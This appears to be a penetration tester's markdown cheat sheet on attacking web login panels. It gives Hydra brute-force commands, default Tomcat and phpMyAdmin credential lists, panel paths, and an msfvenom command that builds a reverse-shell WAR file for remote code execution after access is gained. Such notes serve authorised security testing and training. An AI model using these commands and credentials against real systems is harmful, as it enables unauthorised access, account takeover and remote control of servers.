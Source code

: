 # Exploiting Login Panels
> Tips, tricks and notes on potential entry points if an admin panel, or default login page is identified. 


### Checklist of entry points
- [ ] SQLi on username? 
- [ ] Default credentials
- [ ] credentials commented in HTML source? 
- [ ] Bruteforce
- [ ] can you register a user?
- [ ] usernames mentioned somewhere on the web app?

### Bruteforcing
- Hydra 
	- if the login is being sent via POST from a form
			- ```hydra [ip] http-post-form "/loginPage.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyout.txt -l admin```
	- if it's sent as GET (extremely uncommon): 
		- ```hydra -l user -P /usr/share/wordlists/rockyou.txt -f [ip] http-get /targetPage```
----

### Common locations - login panels
- tomcat
	- /manager/html
	- web content administration

- PHPMyAdmin
	- /phpmyadmin
		- manager for MySQL databases
		- [Python tool to bruteforce this login panel if protected by csrf token](https://github.com/Lukentui/phpmyadmin_brute)
------

### Default credentials
- tomcat
	- admin:admin
	- tomcat:tomcat
	- admin:--Nothing here--
	- admin:s3cr3t
	- tomcat:s3cr3t
	- admin:tomcat

- phpmyadmin
	- root:--Nothing here--
	- root:password
	- admin:admin
	- admin:password
	- admin:--Nothing here--

- other general credentials worth trying quickly
	- admin:administrator
	- user:user
	- user:password
	- user:12345
	- guest:guest
	- root:root
---

### Common Exploit scenarios if acess is gained to admin panel
- tomcat
	- upload WAR file to get RCE
	- ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war```

- phpmyadmin 
	- use SQL execution to upload/write a webshell, then use webshell to get reverse shell
	- Awesome article on this scenario written by a colleague at NetSPI: 
		- [using phpMyAdmin & MySQL to get RCE](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/)





